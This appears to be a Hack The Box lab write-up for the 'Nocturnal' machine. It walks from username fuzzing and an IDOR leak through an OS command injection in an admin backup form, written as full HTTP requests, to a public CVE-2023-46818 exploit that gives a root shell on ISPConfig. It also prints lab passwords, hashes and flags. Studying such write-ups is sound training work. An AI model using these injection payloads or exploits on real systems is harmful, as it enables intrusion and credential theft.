

`


## Table of Contents

- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
    - [Directory Busting](#Directory-Busting)
    - [Enumerating Usernames](#Enumerating-Usernames)
- [Broken Access Control](#Broken-Access-Control)
    - [Insecure Direct Object Reference (IDOR)](#Insecure-Direct-Object-Reference-IDOR)
- [Foothold](#Foothold)
    - [Investigating privacy.odt](#Investigating-privacyodt)
    - [Before Hotfix: Dumping Database via Backup](#Before-Hotfix-Dumping-Database-via-Backup)
    - [Investigating Backup File](#Investigating-Backup-File)
    - [After Hotfix: OS Command Injection](#After-Hotfix-OS-Command-Injection)
    - [Getting Access via SSH](#Getting-Access-via-SSH)
- [user.txt](#usertxt)
- [Enumeration](#Enumeration)
- [Port Forwarding](#Port-Forwarding)
- [Enumeration of Port 8080/TCP](#Enumeration-of-Port-8080TCP)
- [Privilege Escalation to root](#Privilege-Escalation-to-root)
    - [ISPConfig](#ISPConfig)
        - [Password Reuse](#Password-Reuse)
        - [CVE-2023-46818: ISPConfig 3.2.11 PHP Code Injection](#CVE-2023-46818-ISPConfig-3211-PHP-Code-Injection)
- [root.txt](#roottxt)

## Summary

The box starts with a custom `web application` running on port `80/TCP` which allows users to `upload` and `share` documents. A `upload filter` prompts all the allowed `file extensions`. Through `fuzzing` the `username parameter` in the `URL` which can be obtained after a `legitimate file upload` using a `wildcard` (`*`) in the `document parameter`, the usernames of `amanda` and `tobias` can be `enumerated`. From here on a `Insecure Direct Object Reference (IDOR)` vulnerability allows to download a document called `privacy.odt` from within the `user space` of `amanda`. A `temporary password` can be bound after `unzipping` the `document` and searching through the files for the term `password`. This allows to `login` as `amanda` on the `web application`. The user `amanda` then has access to the `Admin Panel` on which `backups` can be `created` and `downloaded`. The `admin.php` gives a hint on how the `backups` are being created. By using `OS Command Injection` in the `password field` it is possible to leak the content of the  `noctunal_database.db` which stores the `hashes` for all the users like `tobias`. His `hash` was already `cracked` and the `clear text password` can be found on pages like `crackstation.net`. This enables `foothold` on the box and access to the `user.txt`. Some quick `enumeration` shows two interesting `open ports` only available on `localhost`. After `forwarding` them a application called `ISPConfig` can be accessed. The version application suffers from `CVE-2023-46818` aka `PHP Code Injection` in version `3.2.11` of `ISPConfig`. To `escalate privileges` to `root` a already available `Proof of Concept (PoC)` exploit can be found on `GitHub`. Through `password reuse` it is possible to pull it of and to obtain a `shell` as `root`.

## Reconnaissance

### Port Scanning

Our usual initial `port scan` using `Nmap` revealed only port `22/TCP` and port `80/TCP` for us to deal with. It also showed a redirect to `nocturnal.htb` which we added to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.17.40
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-12 21:09 CEST
Nmap scan report for 10.129.17.40
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 20:26:88:70:08:51:ee:de:3a:a6:20:41:87:96:25:17 (RSA)
|   256 4f:80:05:33:a6:d4:22:64:e9:ed:14:e3:12:bc:96:f1 (ECDSA)
|_  256 d9:88:1f:68:43:8e:d4:2a:52:fc:f0:66:d4:b9:ee:6b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://nocturnal.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.18 seconds
```

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.17.40    nocturnal.htb
```

### Enumeration of Port 80/TCP

On port `80/TCP` we found a web application that allowed to `register` and `login` new users to `upload` and `share documents`.

- [http://nocturnal.htb/](http://nocturnal.htb/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://nocturnal.htb/
http://nocturnal.htb/ [200 OK] Cookies[PHPSESSID], Country[RESERVED][ZZ], Email[support@nocturnal.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.129.17.40], Title[Welcome to Nocturnal], nginx[1.18.0]
```


However when we tried to upload a `PHP reverse shell` it printed out that only specific `file types` where allowed.

*Invalid file type. pdf, doc, docx, xls, xlsx, odt are allowed.*


### Directory Busting

As next step we started `enumerating` potential `directories` using `directory busting`.

```shell
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://nocturnal.htb/

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/http_nocturnal.htb/__25-04-12_21-13-09.txt

Target: http://nocturnal.htb/

[21:13:09] Starting: 
[21:13:21] 302 -    0B  - /admin.php  ->  login.php                         
[21:13:31] 301 -  178B  - /backups  ->  http://nocturnal.htb/backups/       
[21:13:31] 403 -  564B  - /backups/                                         
[21:13:38] 302 -    0B  - /dashboard.php  ->  login.php                     
[21:13:53] 200 -  644B  - /login.php                                        
[21:13:53] 302 -    0B  - /logout.php  ->  login.php                        
[21:14:06] 200 -  649B  - /register.php                                     
[21:14:18] 403 -  564B  - /uploads                                          
[21:14:18] 403 -  564B  - /uploads/                                         
[21:14:18] 403 -  564B  - /uploads/affwp-debug.log
[21:14:18] 403 -  564B  - /uploads_admin
[21:14:18] 403 -  564B  - /uploads/dump.sql
[21:14:20] 302 -    3KB - /view.php  ->  login.php                          
                                                                             
Task Completed
```

We found a `/view.php` endpoint which allowed users to `view` their uploaded files.


### Enumerating Usernames

We uploaded a `example.doc` to see if a legitimate file upload would show us anything useful. And indeed while we hovered over our uploaded file we noticed the `URL` the file was accessible from.


```shell
http://nocturnal.htb/view.php?username=foobar&file=example.doc
```

We started `fuzzing` the `username` in combination with a `wildcard` (`*.odt`) while providing our `session cookie` we grabbed form within our `session` in the `browser` to `enumerate` in an `authenticated way`. We also filtered out the pattern of `User not found`.

Luckily for us we finally verified the user `admin` and in addition found the `usernames` of `amanda` and `tobias`.

```shell
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u 'http://nocturnal.htb/view.php?username=FUZZ&file=*.odt' -H "Cookie: PHPSESSID=7ia2l7fchk8ndgt3uo2mosmtio" -mc 200 -fr "User not found"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://nocturnal.htb/view.php?username=FUZZ&file=*.odt
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt
 :: Header           : Cookie: PHPSESSID=7ia2l7fchk8ndgt3uo2mosmtio
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
 :: Filter           : Regexp: User not found
________________________________________________

admin                   [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 201ms]
amanda                  [Status: 200, Size: 3113, Words: 1175, Lines: 129, Duration: 102ms]
tobias                  [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 106ms]
foobar                  [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 100ms]
<--- CUT FOR BREVITY --->
```

| Username |
| -------- |
| admin    |
| amanda   |
| tobias   |

## Broken Access Control

### Insecure Direct Object Reference (IDOR)

Now we replaced the `username` with `amanda` and used the `wildcard` to abuse a vulnerability called `Insecure Direct Object Reference (IDOR)` which is part of `Broken Access Control` in order to access `documents` for `amanda`.

```console
http://nocturnal.htb/view.php?username=amanda&file=*.odt
```


## Foothold

### Investigating privacy.odt

We simply clicked on the file and downloaded it. It is worth mentioning here that some of us had issues with that. A reset of the box helped us.


Since the content was only gibberish nonsense when we opened it, we `unzipped` the `privacy.odt` and `searched` for the term `password` using `grep` within all the files.

```shell
┌──(kali㉿kali)-[/media/…/Machines/Nocturnal/files/privacy]
└─$ unzip privacy.odt 
Archive:  privacy.odt
warning [privacy.odt]:  2919 extra bytes at beginning or within zipfile
  (attempting to process anyway)
 extracting: mimetype                
   creating: Configurations2/accelerator/
   creating: Configurations2/images/Bitmaps/
   creating: Configurations2/toolpanel/
   creating: Configurations2/floater/
   creating: Configurations2/statusbar/
   creating: Configurations2/toolbar/
   creating: Configurations2/progressbar/
   creating: Configurations2/popupmenu/
   creating: Configurations2/menubar/
  inflating: styles.xml              
  inflating: manifest.rdf            
  inflating: content.xml             
  inflating: meta.xml                
  inflating: settings.xml            
 extracting: Thumbnails/thumbnail.png  
  inflating: META-INF/manifest.xml
```

This brought up a `temporary password` which we used on the web application as `amanda` to login as her.

```shell
┌──(kali㉿kali)-[/media/…/Machines/Nocturnal/files/privacy]
└─$ grep password *
<--- CUT FOR BREVITY --->
</text:sequence-decls><text:p text:style-name="P1">Dear <text:span text:style-name="T1">Amanda</text:span>,</text:p><text:p text:style-name="P1">Nocturnal has set the following temporary password for you: arHkG7HAI68X8s1J. This password has been set for all our services, so it is essential that you change it on your first login to ensure the security of your account and our infrastructure.</text:p><text:p text:style-name="P1">The file has been created and provided by Nocturnal&apos;s IT team. If you have any questions or need additional assistance during the password change process, please do not hesitate to contact us.</text:p><text:p text:style-name="P1">Remember that maintaining the security of your credentials is paramount to protecting your information and that of the company. We appreciate your prompt attention to this matter.</text:p><text:p text:style-name="P1"/><text:p text:style-name="P1">Yours sincerely,</text:p><text:p text:style-name="P1">Nocturnal&apos;s IT team</text:p></office:text></office:body></office:document-content>
grep: META-INF: Is a directory
grep: Thumbnails: Is a directory
```

| Username | Password         |
| -------- | ---------------- |
| amanda   | arHkG7HAI68X8s1J |

### Before Hotfix: Dumping Database via Backup

The user `amanda` had access to the `Admin Panel` of the web application which allowed her to create `backups`.



We set a password and created a backup. Immediately we saw that the backup contained a file called `nocturnal_database.db`.


### Investigating Backup File

We downloaded and unzipped the backup file.

```shell
┌──(kali㉿kali)-[/media/…/Machines/Nocturnal/files/extract]
└─$ unzip backup_2025-04-12.zip 
Archive:  backup_2025-04-12.zip
[backup_2025-04-12.zip] admin.php password: 
  inflating: admin.php               
   creating: uploads/
  inflating: uploads/privacy.odt     
  inflating: register.php            
  inflating: login.php               
  inflating: dashboard.php           
  inflating: nocturnal_database.db   
  inflating: index.php               
  inflating: view.php                
  inflating: logout.php              
  inflating: style.css
```

A quick `strings` on the `database` resulted in a few `hashes` getting prompted out in our shell.

```shell
┌──(kali㉿kali)-[/media/…/Machines/Nocturnal/files/extract]
└─$ strings nocturnal_database.db 
SQLite format 3
Ktableuploadsuploads
CREATE TABLE uploads (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    user_id INTEGER NOT NULL,
    file_name TEXT NOT NULL,
    upload_time DATETIME DEFAULT CURRENT_TIMESTAMP,
    FOREIGN KEY(user_id) REFERENCES users(id)
Ytablesqlite_sequencesqlite_sequence
CREATE TABLE sqlite_sequence(name,seq)
        tableusersusers
CREATE TABLE users (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username TEXT NOT NULL UNIQUE,
    password TEXT NOT NULL
indexsqlite_autoindex_users_1users
Mfoobar3858f62230ac3c915f300c664312c63f*
Mtobias55c82b1ccd55ab219b3b109b07d5061d*
Mamandadf8b20aa0c935023f99ea58358fb63c4)
Madmind725aeba143f575736b07e045d8ceebb
foobar
tobias
amanda
        admin
uploads
users
privacy.odt2024-10-18 02:05:53
```

Since we already had access to amanda which was basically administrator on the application, we only focused on `tobias` and his corresponding `hash`.

| Username | Hash                             |
| -------- | -------------------------------- |
| tobias   | 55c82b1ccd55ab219b3b109b07d5061d |

### After Hotfix: OS Command Injection

Update: Since HTB decided to apply a `Hotfix` which moves the `nocturnal_database.db` out of the `backup directory` the new approach is to go for `OS Command Injection`.

To find this vulnerability we had to look at the `admin.php` from within the `Admin Panel`. There we spotted that the `password field` had a potential `OS Command Injection` vulnerability.

- [http://nocturnal.htb/admin.php?view=admin.php](http://nocturnal.htb/admin.php?view=admin.php)

```php
<?php
if (isset($_POST['backup']) && !empty($_POST['password'])) {
    $password = cleanEntry($_POST['password']);
    $backupFile = "backups/backup_" . date('Y-m-d') . ".zip";

    if ($password === false) {
        echo "<div class='error-message'>Error: Try another password.</div>";
    } else {
        $logFile = '/tmp/backup_' . uniqid() . '.log';
       
        $command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
        
        $descriptor_spec = [
            0 => ["pipe", "r"], // stdin
            1 => ["file", $logFile, "w"], // stdout
            2 => ["file", $logFile, "w"], // stderr
        ];

        $process = proc_open($command, $descriptor_spec, $pipes);
        if (is_resource($process)) {
            proc_close($process);
        }
```

We crafted a payload to achieve `Arbitrary Code Execution` and added it after our `legitimate password`.

```shell
%0Acat%09/etc/passwd<&0
```

```shell
POST /admin.php HTTP/1.1
Host: nocturnal.htb
Content-Length: 46
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://nocturnal.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://nocturnal.htb/admin.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=8a93d5flq8vti3aeo38vn3n40o
Connection: keep-alive

password=foobar%0Acat%09/etc/passwd<&0&backup=
```


Now after our payload worked, we searched for the `nocturnal_database.db` which was now located within `/var/www/nocturnal_database/`.

```shell
POST /admin.php HTTP/1.1
Host: nocturnal.htb
Content-Length: 42
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://nocturnal.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://nocturnal.htb/admin.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=8a93d5flq8vti3aeo38vn3n40o
Connection: keep-alive

password=foobar%0Als%09/var/www<&0&backup=
```


```shell
POST /admin.php HTTP/1.1
Host: nocturnal.htb
Content-Length: 42
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://nocturnal.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://nocturnal.htb/admin.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=8a93d5flq8vti3aeo38vn3n40o
Connection: keep-alive

password=foobar%0Als%09/var/www/nocturnal_database/<&0&backup=
```


```shell
POST /admin.php HTTP/1.1
Host: nocturnal.htb
Content-Length: 88
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://nocturnal.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://nocturnal.htb/admin.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=8a93d5flq8vti3aeo38vn3n40o
Connection: keep-alive

password=foobar%0Astrings%09/var/www/nocturnal_database/nocturnal_database.db<&0&backup=
```

At the end we `exfiltrated` the `hashes` using `strings`.

```shell
<--- CUT FOR BREVITY --->
Mfoobar3858f62230ac3c915f300c664312c63f)
Me0Al5101ad4543a96a7fd84908fd0d802e7db(
Mkavif38cde1654b39fea2bd4f72f1ae4cdda*
Mtobias55c82b1ccd55ab219b3b109b07d5061d*
Mamandadf8b20aa0c935023f99ea58358fb63c4)
Madmind725aeba143f575736b07e045d8ceebb
<--- CUT FOR BREVITY --->
```


*In my opinion (syro) HTB should stick to unintended solutions and not fix them. Especially not while the box is still active. A vulnerability is a vulnerability and exploiting them is what hacking is all about. If it was not intended, okay no problem, then learn from it and do better next time.*

### Getting Access via SSH

Once again `crackstation.net` got our back and provided us the `already cracked hash` and it's `clear text password`.

- [https://crackstation.net/](https://crackstation.net/)

| Username | Password             |
| -------- | -------------------- |
| tobias   | slowmotionapocalypse |

This allowed us to get `foothold` on the box by logging in via `SSH` as `tobias`.

```shell
┌──(kali㉿kali)-[~]
└─$ ssh tobias@10.129.17.40
The authenticity of host '10.129.17.40 (10.129.17.40)' can't be established.
ED25519 key fingerprint is SHA256:rpVMGW27qcXKI/SxVXhvpF6Qi8BorsH7RNh1jzi8VYc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.17.40' (ED25519) to the list of known hosts.
tobias@10.129.17.40's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-212-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat 12 Apr 2025 08:59:28 PM UTC

  System load:           0.53
  Usage of /:            57.0% of 5.58GB
  Memory usage:          26%
  Swap usage:            0%
  Processes:             231
  Users logged in:       0
  IPv4 address for eth0: 10.129.17.40
  IPv6 address for eth0: dead:beef::250:56ff:feb0:9804


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


Last login: Sat Apr 12 20:59:30 2025 from 10.10.16.18
tobias@nocturnal:~$
```

## user.txt

We grabbed the `user.txt` and moved on.

```shell
tobias@nocturnal:~$ cat user.txt 
b0ea8ae92ba8edae765f96132de132f8
```

## Enumeration

The `enumeration` of `tobias` didn't showed any quick wins nor additional users on the box.

```shell
tobias@nocturnal:~$ id
uid=1000(tobias) gid=1000(tobias) groups=1000(tobias)
```

```shell
tobias@nocturnal:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
tobias:x:1000:1000:tobias:/home/tobias:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
ispapps:x:1001:1002::/var/www/apps:/bin/sh
ispconfig:x:1002:1003::/usr/local/ispconfig:/bin/sh
smmta:x:115:120:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/nologin
smmsp:x:116:121:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/nologin
_laurel:x:997:997::/var/log/laurel:/bin/false
```

```shell
tobias@nocturnal:~$ sudo -l
[sudo] password for tobias: 
Sorry, user tobias may not run sudo on nocturnal.
```

Because of that we took a look at the `locally available open ports` and found `TCP/8080` as well as `TCP/33060`.

```shell
tobias@nocturnal:~$ ss -tulpn
Netid                   State                    Recv-Q                   Send-Q                                     Local Address:Port                                       Peer Address:Port                   Process                   
udp                     UNCONN                   0                        0                                                0.0.0.0:68                                              0.0.0.0:*                                                
tcp                     LISTEN                   0                        151                                            127.0.0.1:3306                                            0.0.0.0:*                                                
tcp                     LISTEN                   0                        10                                             127.0.0.1:587                                             0.0.0.0:*                                                
tcp                     LISTEN                   0                        511                                              0.0.0.0:80                                              0.0.0.0:*                                                
tcp                     LISTEN                   0                        4096                                           127.0.0.1:8080                                            0.0.0.0:*                                                
tcp                     LISTEN                   0                        128                                              0.0.0.0:22                                              0.0.0.0:*                                                
tcp                     LISTEN                   0                        10                                             127.0.0.1:25                                              0.0.0.0:*                                                
tcp                     LISTEN                   0                        70                                             127.0.0.1:33060                                           0.0.0.0:*                                                
tcp                     LISTEN                   0                        128                                                 [::]:22                                                 [::]:*
```

## Port Forwarding

We `forwarded` those `ports` in order to investigate them further. Since we still had `Burp Suite` running which allocated port `8080/TCP` already we mapped port `8080/TCP` to `8888/TCP` on our side.

```shell
┌──(kali㉿kali)-[~]
└─$ ssh -L 8888:127.0.0.1:8080 -L 33060:127.0.0.1:33060 tobias@10.129.17.40
tobias@10.129.17.40's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-212-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat 12 Apr 2025 09:10:17 PM UTC

  System load:           0.01
  Usage of /:            58.7% of 5.58GB
  Memory usage:          26%
  Swap usage:            0%
  Processes:             226
  Users logged in:       0
  IPv4 address for eth0: 10.129.17.40
  IPv6 address for eth0: dead:beef::250:56ff:feb0:9804


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Apr 12 21:10:30 2025 from 10.10.16.18
tobias@nocturnal:~$
```

## Enumeration of Port 8080/TCP

When we accessed the got greeted by the `login panel` of `ISPConfig`. A quick look at it using `whatweb` showed an outdated version of `PHP`.

- [http://localhost:8888/login/](http://localhost:8888/login/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://localhost:8888       
http://localhost:8888 [302 Found] Cookies[ISPCSESS], HttpOnly[ISPCSESS], IP[::1], PHP[7.4.3-4ubuntu2.29], RedirectLocation[/login/], X-Powered-By[PHP/7.4.3-4ubuntu2.29]
http://localhost:8888/login/ [200 OK] Bootstrap, Cookies[ISPCSESS], HTML5, HttpOnly[ISPCSESS], IP[::1], JQuery, Modernizr, PHP[7.4.3-4ubuntu2.29], PasswordField[password], Script[text/javascript], Title[ISPConfig], X-Powered-By[PHP/7.4.3-4ubuntu2.29]
```


## Privilege Escalation to root

### ISPConfig

#### Password Reuse

The first thing we tried was to see if some of the `passwords` we collected was `reused` on this application and indeed the `password` of `tobi` was the same as for `admin` on `ISPConfig` which allowed us to login.

| Username | Password             |
| -------- | -------------------- |
| admin    | slowmotionapocalypse |


#### CVE-2023-46818: ISPConfig 3.2.11 PHP Code Injection

A bit of research brought us to a `PHP Code Injection` vulnerability in `ISPConfig` version `3.2.11` also known as `CVE-2023-46818`.

We found an already available `Proof of Concept (PoC)` exploit on `GitHub`.

- [https://github.com/bipbopbup/CVE-2023-46818-python-exploit](https://github.com/bipbopbup/CVE-2023-46818-python-exploit)

The exploit required `authentication` but since we already verified the `credentials` we simply could fire it up against the application and got a shell as `root`.

One more time we need to mention that the exploit failed several times and we had to reset the box in order to make it work.

```shell
┌──(kali㉿kali)-[/media/…/Machines/Nocturnal/files/CVE-2023-46818-python-exploit]
└─$ python3 exploit.py http://localhost:8888/ admin slowmotionapocalypse
[+] Target URL: http://localhost:8888/
[+] Logging in with username 'admin' and password 'slowmotionapocalypse'
[+] Injecting shell
[+] Launching shell

ispconfig-shell# id
uid=0(root) gid=0(root) groups=0(root)


ispconfig-shell#
```

## root.txt

```shell
ispconfig-shell# cat /root/root.txt
1cf918443f71485b01b959ae721be03e


ispconfig-shell#
```
